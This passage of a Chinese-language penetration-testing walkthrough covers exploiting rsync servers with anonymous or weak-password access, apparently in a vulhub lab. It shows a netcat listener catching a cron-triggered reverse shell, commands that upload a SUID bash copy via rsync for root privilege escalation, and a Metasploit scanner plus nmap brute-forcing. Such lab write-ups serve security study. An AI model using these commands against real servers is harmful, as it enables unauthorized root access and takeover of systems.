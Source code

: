 3、kali监听6666端口，等待计划任务执行后反弹shell成功
```
nc -lvvp 6666
```

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175131406-ac9cff85-d5a5-42d6-8728-628f8c3a1043.png" /></div>


# 0x04 其它利用思路
- 来自[rsync的几则tips（渗透技巧）](https://blog.csdn.net/kclax/article/details/93207941)

## 4.1 本地提权
由于rsync进程默认以root权限启动，在rsync为匿名访问或存在弱口令前提下，还可利用其在同步文件过程中保持源文件权限的特性，进行本地权限提升。
在本地将bash shell添加suid权限位，并通过rsync上传到服务端。
```
chmod a+s /tmp/shell
rsync -avz /tmp/shell test@192.168.50.227::src/var/www/html
```
在有普通用户shell权限前提下(通过rsync上传webshell或其他弱口令等漏洞)，切换到同步目录，查看上传的shell文件权限不变，运行后即可提升为root权限。

## 4.2 自动化脚本
Metasploit中关于允许匿名访问的rsync扫描模块：`auxiliary/scanner/rsync/modules_list`

无论有没有设置密码都能用该模块找到module，然后用nmap暴破。

<div align=center><img src="https://user-images.githubusercontent.com/84888757/175134557-ad7de6e1-25b7-4727-bd34-99edde8d2924.png" /></div>


# 0x05 参考链接
- [rsync的几则tips（渗透技巧）](https://blog.csdn.net/kclax/article/details/93207941)
- https://github.com/vulhub/vulhub/tree/master/rsync/common
